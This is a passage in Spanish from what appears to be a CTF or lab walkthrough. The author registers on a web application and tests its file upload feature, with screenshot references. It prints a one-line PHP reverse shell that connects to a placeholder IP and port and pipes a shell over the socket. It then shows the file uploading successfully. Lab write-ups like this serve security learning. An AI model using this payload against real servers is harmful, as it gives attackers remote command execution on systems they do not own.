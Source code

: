 Vemos que ha funcionado, vamos a probar a registrar un usuario en la web, una vez registrado nos redirige al `login`, cuando iniciemos sesion con dichas credenciales, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 122458.png" alt=""><figcaption></figcaption></figure>

Si probamos a subir un archivo por ejemplo una `reverse shell`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Nos vamos a la seccion de `Upload Files` y si nos dejara subirlo:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-25 122653.png" alt=""><figcaption></figcaption></figure>

